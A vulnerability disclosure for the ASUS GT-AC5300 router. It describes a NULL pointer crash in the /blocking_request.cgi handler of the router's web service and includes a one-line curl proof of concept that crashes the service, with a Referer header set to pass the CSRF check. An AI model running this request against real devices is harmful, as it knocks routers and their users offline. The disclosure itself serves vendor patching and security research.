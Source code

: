 # ASUS GT-AC5300 Denial of Service #

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/


## Vul detail ##

The router starts a httpd service using port 80. In the handler of route `/blocking_request.cgi`, after retrieving the value of parameter `timestap`(which should be a typo), `atol()` is called without checking if it's a NULL pointer.

![](ida.png)

A NULL pointer reference would be triggered if there's no such parameter in the request, and the web service would crash.

## POC

Since the referer is checked against CSRF, we need to set it to the same as the router's address.

```bash
curl -i -X POST '192.168.20.1/blocking_request.cgi' -H 'Referer: http://192.168.20.1/'
```
